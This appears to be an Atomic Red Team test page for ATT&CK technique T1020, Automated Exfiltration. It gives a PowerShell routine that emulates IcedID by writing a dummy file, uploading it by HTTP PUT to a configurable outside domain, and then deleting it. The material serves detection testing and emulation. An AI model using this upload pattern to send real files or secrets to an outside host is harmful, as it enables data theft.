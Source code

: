 ```yaml
---
tags: [T1020, atomic_test]
filename: "[[T1020|T1020 - Automated Exfiltration]]"
---
```

# T1020 - Automated Exfiltration

## Atomic Test #1 - IcedID Botnet HTTP PUT
Creates a text file
Tries to upload to a server via HTTP PUT method with ContentType Header
Deletes a created file

**Supported Platforms:** Windows


**auto_generated_guid:** 9c780d3d-3a14-4278-8ee5-faaeb2ccfbe0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file | Exfiltration File | string | C:&#92;temp&#92;T1020_exfilFile.txt|
| domain | Destination Domain | url | https://google.com|


#### Attack Commands: Run with `powershell`! 


```powershell
$fileName = "#{file}"
$url = "#{domain}"
$file = New-Item -Force $fileName -Value "This is ART IcedID Botnet Exfil Test"
$contentType = "application/octet-stream"
try {Invoke-WebRequest -Uri $url -Method Put -ContentType $contentType -InFile $fileName} catch{}
```

#### Cleanup Commands:
```powershell
$fileName = "#{file}"
Remove-Item -Path $fileName -ErrorAction Ignore
```





<br/>
